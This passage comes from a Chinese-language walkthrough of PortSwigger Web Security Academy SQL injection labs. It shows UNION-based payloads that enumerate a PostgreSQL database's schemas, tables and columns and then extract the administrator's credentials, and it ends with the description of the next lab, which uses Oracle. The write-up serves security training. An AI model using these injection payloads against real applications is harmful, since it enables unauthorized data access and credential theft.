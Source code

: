 ### 解答

先確認一下 DB 版本跟 Column 寬度。
```
https://ac8c1f641f76c61fc06f0d3200fb001f.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,version()%20--%20-
```
可以知道他是 PostgreSQL ，且 Column 寬度為 2

首先觀察資料庫裡面有哪些 schema

```
https://ac8c1f641f76c61fc06f0d3200fb001f.web-security-academy.net/filter?category=123%27%20UNION%20SELECT%20NULL,schemaname%20FROM%20pg_tables%20--%20-
```
回傳了三個 `information_schema`, `public`, `pg_catalog`，直覺猜 `pbulic`


觀察 `public` 裡面有哪些 table

```
https://ac8c1f641f76c61fc06f0d3200fb001f.web-security-academy.net/filter
?category=123' UNION SELECT NULL,tablename FROM pg_tables WHERE schemaname='public' -- -
```

噴出了 `users_ppeymv` 跟 `products`，這邊我猜每個人的題目可能都會是亂數，以我這邊的例子是 `users_ppeymv`


接下來觀察 `users_ppeymv` 底下有哪些 Column

```
https://ac8c1f641f76c61fc06f0d3200fb001f.web-security-academy.net/filter
?category=123' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_ppeymv' -- -
```

可以看到回傳了兩個 row，分別是 `password_xtgnur` 跟 `username_bdounz`

到此為止，我們知道了， table 名稱是 `users_ppeymv`， column 名稱是 `username_bdounz` 與 `password_xtgnur`，資料庫種類是 PostgreSQL

最後只需要取資料即可

```
https://ac8c1f641f76c61fc06f0d3200fb001f.web-security-academy.net/filter
?category=123' UNION SELECT NULL,username_bdounz || ':' || password_xtgnur FROM users_ppeymv -- -
```
透過以上指令，即可取出 administrator 的帳密，登入即可過關

## [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
### 題目敘述
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
